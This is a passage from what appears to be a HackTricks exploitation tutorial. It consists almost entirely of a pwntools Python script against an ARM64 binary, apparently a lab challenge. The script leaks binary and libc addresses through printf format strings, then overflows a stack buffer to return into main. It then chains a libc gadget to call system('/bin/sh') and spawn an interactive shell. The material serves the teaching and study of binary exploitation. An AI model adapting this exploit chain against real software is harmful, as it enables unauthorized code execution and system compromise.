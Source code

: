 ```python
p.sendline(payload)

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset)
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
libc.address = libc_base_address
print(f"Libc address: {hex(libc_base_address)}")
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# ret2system
ldr_x0_ret = p64(libc.address + 0x49c40) # ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x78 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
```
{{#include ../../../banners/hacktricks-training.md}}
